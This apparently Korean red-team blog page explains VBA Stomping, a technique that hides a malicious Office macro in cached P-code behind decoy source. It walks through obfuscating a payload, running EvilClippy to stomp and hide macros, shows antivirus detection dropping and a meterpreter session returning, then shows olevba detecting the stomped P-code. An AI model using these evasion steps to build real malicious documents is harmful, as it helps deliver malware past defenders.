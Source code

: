 # VBA Stomping

VBA Stomping 은 2018년도 Derbycon 에서 Harold Ogden (@haroldogden), Kirk Sayre (@bigmacjpg) and Carrie Roberts (@OrOneEqualsOne) 가 Dr. Vesselin Bontchev 박사의 P-code 연구를 보고 영감을 받아 만들어낸 VBA 매크로 방어 우회 기법 중 하나다.

VBA 매크로는 총 3가지 형태로 오피스 제품에 저장된다:

1. 소스코드 - 실제로 작성된 VBA 매크로의 소스코드가 압축된 형태
2. P-code - #1번을 기반으로 컴파일된 어셈블리어와 비슷한 형태 - 캐시된 형태로, 똑같은 오피스 버전에서 열리면 소스코드가 아닌 P-code가 대신 실행된다.
3. Execode - P-Code가 여러번 실행될 시 P-code를 tokenize 한 형태로 저장되는 형태 - 이건 일단 무시한다.

여기서 재밌는 점은 소스코드를 flexhex 등의 툴을 이용해 다른 VBA 매크로로 변경해도 P-code는 이전 소스코드를 담고 있다는 것이다. 예를 들어,

* 소스코드 - 악성 VBA
* P-code - 악성 VBA

의 형태로 저장되어 있는 문서를 flexhex 등의 툴로 열어 소스코드 바이트를 직접 수정해주면

* 소스코드 - 평범한 VBA, 혹은 null-byte 형태로 아무것도 없는 VBA
* P-code - 악성 VBA

위 상태가 되며, 이 상태로 문서를 열면 소스코드가 아니라 P-code 가 실행된다. 유의할 점은 만들어진 오피스 버전과 문서가 열리는 오피스 버전이 같아야 P-code 가 실행된다는 것이다. 따라서 공격자의 입장에서는 피해자 호스트에 어떤 오피스 제품이 설치되어 있는지를 알아낸 다음에 사용할 수 있는 기법이다. 이는 이메일 헤더와 유저 에이전트 등으로 정보 수집을 통해 알아낼 수 있다.

### 실습

[오피스 VBA 매크로 페이지](vba-macros.md)에서 사용했던 코드를 그대로 사용한다. 단, 작전보안을 위해 [VisualBasicObfuscator](https://github.com/mgeeky/VisualBasicObfuscator)를 이용해 코드를 난독화한다. 스키디의 악용을 막기 위해 툴의 라인 647에서 발생하는 에러를 고치는 법은 따로 설명하지 않는다.

```
https://github.com/mgeeky/VisualBasicObfuscator.git

# range() 함수와 관련해서 간단한 수정을 하면 제대로 실행된다. 
647# for s in range(len(longLine) / SPLIT + 1):

# 난독화 진행 
┌──(root㉿kali)-[/opt/VisualBasicObfuscator]
└─# python3 obfuscate.py payload.vbs -o payload-obfuscated.vbs

    :: Visual Basic script obfuscator for thy red teaming needs!
    Mariusz Banach / mgeeky, '17, '20; <mb [at] binary-offensive.com>
    v: 0.2

[+] Input file:         payload.vbs
[+] Output file:        payload-obfuscated.vbs
[+] Input file length: 1205
[+] Obfuscated file length: 5742
[+] Obfuscated code has been written to:
                payload-obfuscated.vbs
```

이후 VBA Stomping에 사용될 가짜 VBA 코드를 준비한다. 이제 VBA 소스코드는 가짜 VBA 코드로 덮어씌워지고, P-code에는 위에서 만든 악성 VBA 코드가 제대로 들어가 있을 것이다. 이는 추후 대응방안 섹션에서 확인한다.

EvilClippy 툴을 이용해 VBA stomping 과 메타데이터 삭제, 모듈 이름 랜덤화, GUI에서 VBA 감추기 등의 방어 우회 기법을 적용한다.

VBA Stomping에 사용될 가짜 VBA 코드는 다음과 같다.

```
Sub Document_Open()
    Macro1
End Sub

Sub AutoOpen()
    Macro1
End Sub

Sub Macro1()
'
' Macro1 Macro
'
'
    Range("B1").Select
    ActiveCell.FormulaR1C1 = "Hello World"
    Range("B2").Select
End Sub
```

이제 EvilClippy를 사용해 VBA Stomping을 진행한다.

```
 # EvilClippy 설치 - Visual studio -> x64 Native Tools command prompt 
 csc /reference:OpenMcdf.dll,System.IO.Compression.FileSystem.dll /out:EvilClippy.exe *.cs
 
 # EvilClippy 사용 
 .\EvilClippy.exe -s .\fakecode.vba .\sample-payload-obs.doc -g -d -r -u 
```

VBA Stomping 과 난독화를 진행하지 않은 일반 페이로드의 탐지율을 확인해보자.

![일반 페이로드](<../../.gitbook/assets/image (71).png>)

VBA stomping만 적용한 페이로드의 탐지율을 다음과 같다.

![VBA stomping을 적용한 페이로드](<../../.gitbook/assets/image (58).png>)

VBA stomping과 난독화를 둘 다 적용한 페이로드다. 몇몇 AV들은 스캔을 포기한 것을 볼 수 있다.

![VBA stomping과 난독화를 적용한 페이로드](<../../.gitbook/assets/image (105).png>)

이후 페이로드를 실행하면 meterpreter가 돌아온다.

![](../../.gitbook/assets/vba-stomping-2.gif)

### 분석/대응 방안

VBA Stomping 기법과 P-code의 악용 방법은 2018년도에 나왔기 때문에 2022년도 기준으로 많은 툴들이 이를 탐지한다. 예를 들어 [oletools](https://github.com/decalage2/oletools/wiki/olevba) 툴을 이용해 VBA Stomping 기법을 적용한 파일을 분석해보자.

olevba 를 통해 분석해보면 다음과 같은 VBA 매크로와 P-code가 나온다.

![](<../../.gitbook/assets/image (101).png>)

VBA 매크로인 `Macros/VBA/ThisDocument` 과 `Macros/VBA/NewMacros` 에서는 수상한 VBA 매크로가 발견되지 않는다. EvilClippy가 위에서 가짜 VBA 매크로로 VBA Stomping을 진행했기 때문이다.

하지만 P-code 섹션을 보면 원래 있었던 VBA 페이로드가 보인다. 난독화를 진행했기 때문에 `Create, ShowWindow, Xor, Base64 Strings, VBA Stomping` 등의 수상한 키워드들이 보인다.

`ThisDocument` 와 `NewMacros` 의 코드는 다음과 같이 나온다.

```
┌──(root㉿kali)-[~/blog]                                                                              
└─# olevba -a sample-payload_EvilClippy.doc -c                                 
olevba 0.60.1 on Python 3.10.4 - http://decalage.info/python/oletools                                 
===============================================================================
FILE: sample-payload_EvilClippy.doc                                                                   
Type: OLE                                                                                             
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls                                                                            
in file: sample-payload_EvilClippy.doc - OLE stream: 'Macros/VBA/ThisDocument' 
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -  
Sub Document_Open()                                                                                   
    Macro1                                                                                            
End Sub                                                                                               
                                                                                                      
Sub AutoOpen()                                                                                                                                                                                               
    Macro1                                                                                            
End Sub                                                                                               
                                                   
Sub Macro1()                                                                                          
'                                                                                                     
' Macro1 Macro                                                                                        
'                                                                                                     
'                                                                                                     
    Range("B1").Select                                                                                
    ActiveCell.FormulaR1C1 = "Hello World"                                                            
    Range("B2").Select                                                                                
End Sub                              
```

그 이후 P-code를 살펴보면 다음과 같은 코드가 나온다. 난독화된 VBA 코드가 또 다시 P-code 형태로 변했기 때문에 읽기 힘들지만, 적어도 악성 행위를 하는 VBA를 살펴볼 수는 있다.

```
VBA MACRO VBA_P-code.txt                                                                                                                                                                                     
in file: VBA P-code - OLE stream: 'VBA P-code'                                                        
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -                         
' Processing file: sample-payload_EvilClippy.doc                                                      
' ===============================================================================                                                                                                                            
' Module streams:
' Macros/VBA/ThisDocument - 922 bytes
' Macros/VBA/NewMacros - 9204 bytes
' Line #0:
'       FuncDefn (Sub Document_Open())
' Line #1:
'       ArgsCall test 0x0000 
' Line #2:
'       EndSub 
' Line #3:
'       FuncDefn (Sub AutoOpen())
' Line #4:
'       ArgsCall test 0x0000 
' Line #5:
'       EndSub 

< ... >
                                                                                                                                                                                            
' Line #142:                                                                                                                                                                                                 
'       Ld EqKwFzDJ                                                                                                                                                                                          
'       Ld EqKwFzDJ 
'       FnLen 
'       Ld Ivtp83Fcz 
'       Sub 
'       ArgsLd Left$ 0x0002 
'       St EqKwFzDJ 
' Line #143:
'       EndIfBlock 
' Line #144:
'       Ld EqKwFzDJ 
'       St O9sTsRbm 
' Line #145:
'       EndFunc 
' Line #146:

```

### 레퍼런스

{% embed url="https://github.com/bontchev/pcodedmp" %}

{% embed url="https://vbastomp.com/" %}

{% embed url="https://medium.com/walmartglobaltech/vba-stomping-advanced-maldoc-techniques-612c484ab278" %}

{% embed url="https://outflank.nl/blog/2019/05/05/evil-clippy-ms-office-maldoc-assistant/" %}

{% embed url="https://github.com/sevagas/macro_pack" %}

{% embed url="https://github.com/outflanknl/EvilClippy" %}
